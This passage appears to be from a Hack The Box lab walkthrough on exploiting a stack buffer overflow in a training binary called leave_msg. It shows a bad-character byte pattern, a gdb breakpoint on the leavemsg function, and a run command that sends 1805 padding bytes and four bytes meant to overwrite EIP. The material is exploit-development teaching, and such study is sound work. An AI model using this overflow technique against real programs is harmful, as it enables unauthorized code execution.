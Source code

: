 ```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

With our bad characters pattern, we are going to send it to the debugger an identify the bad characters, comparing our payload with the default pattern we created. In the process, we will set a breakpoint in the leavemsg function so we can easily analyze the memory content

```bash
(gdb) break leavemsg
Breakpoint 1 at 0x691
```

We need to aply a few changes in our payload. We must change the buffer size to adapt with the bad characters pattern we have generated

Now, we can send our payload with the following format:

```
Buffer = 'A' * (2064 - 255 - 4) => 1805
Bad Chars = pattern
EIP = 'B' * 4
```

```bash
(gdb) run $(python -c "print 'A' * 1805 + 'B' * 4 + '\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'")
```

```bash
Starting program: /home/htb-student/leave_msg $(python -c "print 'A' * 1805 + 'B' * 4 + '\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'")

Breakpoint 1, 0x56555691 in leavemsg ()
```
